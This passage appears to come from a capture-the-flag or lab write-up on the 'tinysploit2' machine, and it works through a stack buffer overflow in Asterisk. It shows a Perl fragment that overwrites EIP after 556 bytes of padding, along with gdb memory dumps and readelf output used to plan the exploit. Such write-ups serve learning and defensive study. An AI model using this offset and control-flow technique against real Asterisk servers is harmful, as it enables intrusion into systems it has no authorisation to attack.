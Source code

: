Here a useful command to start gdb with the asterisk PID, which I used a lot:
```
user@tinysploit2:~$ gdb -p `ps axw | grep "/usr/bin/asterisk" | grep -v grep | awk '{ print $1}'`
```


`EIP=0x42424242` at the time of the crash is based on this part of the code:
```
my $eip = 0x42424242;
my $padding = "A" x 556;
my $buf = $padding . pack("V", $eip);
```

Also ESP seems to point to the end of the input buffer:
```
(gdb) x/4x $esp
0xb7339bc0:	0x00000000	0xb733d163	0x00000001	0xb733cf30
(gdb) x/8x $esp-8
0xb71fabb8:	0x41414141	0x42424242	0x00000000	0xb71fe163
```


Lets check where `EDX=0x815e320` points to, just so we have an overview:

```
(gdb) x/32x $edx
0x815e320 <option_debug>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e330:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e340 <ast_config_AST_DATA_DIR>:	0x7261762f	0x62696c2f	0x7473612f	0x73697265
0x815e350 <ast_config_AST_DATA_DIR+16>:	0x0000006b	0x00000000	0x00000000	0x00000000
0x815e360 <ast_config_AST_DATA_DIR+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e370 <ast_config_AST_DATA_DIR+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e380 <ast_config_AST_DATA_DIR+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e390 <ast_config_AST_DATA_DIR+80>:	0x00000000	0x00000000	0x00000000	0x00000000


(gdb) info proc mappings
process 1186
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8145000    0xfd000        0x0 /usr/bin/asterisk
	 0x8145000  0x8154000     0xf000    0xfc000 /usr/bin/asterisk
	 0x8154000  0x8171000    0x1d000        0x0
...
```

No help, lets check with `readelf`:

```
user@tinysploit2:~$ readelf -l /usr/bin/asterisk

Elf file type is EXEC (Executable file)
Entry point 0x8057790
There are 7 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x000e0 0x000e0 R E 0x4
  INTERP         0x000114 0x08048114 0x08048114 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0xfc03b 0xfc03b R E 0x1000
->LOAD           0x0fc040 0x08145040 0x08145040 0x0e45c 0x2b000 RW  0x1000
  DYNAMIC        0x109e5c 0x08152e5c 0x08152e5c 0x00100 0x00100 RW  0x4
  NOTE           0x000128 0x08048128 0x08048128 0x00020 0x00020 R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4

 Section to Segment mapping:
  Segment Sections...
```